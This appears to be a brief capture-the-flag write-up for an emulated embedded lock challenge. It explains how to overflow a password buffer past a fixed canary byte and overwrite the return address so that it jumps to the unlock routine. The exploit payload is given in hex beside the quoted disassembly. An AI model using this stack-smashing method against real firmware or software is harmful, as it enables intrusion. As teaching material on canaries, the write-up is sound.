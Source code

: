 ## Challenge Overview

```
OVERVIEW

    - A firmware update rejects passwords which are too long.
    - This lock is attached the the LockIT Pro HSM-1.
```

## Solution
Looking at the assembly it seems there is a static canary after the input buffer:
```
4566:  b012 4644      call	#0x4446 <unlock_door>
---
4578:  f190 8600 1100 cmp.b	#0x86, 0x11(sp)
457e:  0624           jz	$+0xe <login+0x60>
4580:  3f40 ff44      mov	#0x44ff "Invalid Password Length: password too long.",
---
458c:  3150 1200      add	#0x12, sp
```

To get around this we can just add it to the buffer:

| padding | canary |  srp |

So:
`0x41*17+0x86 + 0x4644`

trying this:
```
4141414141414141414141414141414141864644
```

The works!

Nice intro to canaries.